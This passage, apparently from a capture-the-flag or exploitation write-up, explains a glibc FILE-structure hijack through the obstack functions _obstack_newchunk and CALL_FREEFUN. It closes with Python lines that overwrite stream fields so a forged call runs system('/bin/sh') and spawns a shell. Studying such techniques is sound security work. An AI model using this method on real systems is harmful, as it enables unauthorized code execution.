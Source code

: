 ```c
# define obstack_1grow(h, datum)                \
  ((((h)->next_free + 1 > (h)->chunk_limit)             \
    ? (_obstack_newchunk ((h), 1), 0) : 0),             \
   obstack_1grow_fast (h, datum))
```
We can observe that *next_free*  and *chunk_limit* are members of the *obstack* struct, and if *next_free* + 1 is greater than *chunk_limit*, we will execute the *_obstack_newchunk* function. This is equivalent to *_IO_read_base* and *_IO_write_base* in the *fp* FileStream. At the moment of execution, these values are equal, so the check is passed, and we will be redirected to the  *_obstack_newchunk*. Let's explore this function. The *_obstack_newchunk* is a big function, but the relevant part for exploitation is below.

```c
void
_obstack_newchunk (struct obstack *h, int length)
// code above (...)

  if (!h->maybe_empty_object
      && (h->object_base
    == __PTR_ALIGN ((char *) old_chunk, old_chunk->contents,
        h->alignment_mask)))
    {
      new_chunk->prev = old_chunk->prev;
      CALL_FREEFUN (h, old_chunk);
    }

  h->object_base = object_base;
//code below (...)
```

Wtithin the function above,  there's a call to *CALL_FREEFUN* where the controlled struct will be passed again as the argument. Let's examine this function in obstack.c

```c
# define CALL_FREEFUN(h, old_chunk) \
  do { \
      if ((h)->use_extra_arg)                 \
  (*(h)->freefun)((h)->extra_arg, (old_chunk));           \
      else                      \
  (*(void (*)(void *))(h)->freefun)((old_chunk));           \
    } while (0)
```
From the struct we control, if *use_extra_arg* equivalent to *_IO_backup_base* is greater than 0, then we finally will call  *freefun* equivalent to *_IO_buf_base*, with *extra_arg*  as an argument, which can be set on *_IO_save_base*, it's a pointer, so it needs to be the address of "/bin/sh" within libc. We can achieve this with the following python code.

```python
write_addr(_IO_backup_base, 0xdeadbeef) # needs to be greater than 0
write_addr(_IO_buf_base, libc.sym.system) # function to call
write_addr(_IO_save_base, next(libc.search(b'/bin/sh')))  # arg to function
```
After that, we need to add a *flush()* call, and we can get a shell!

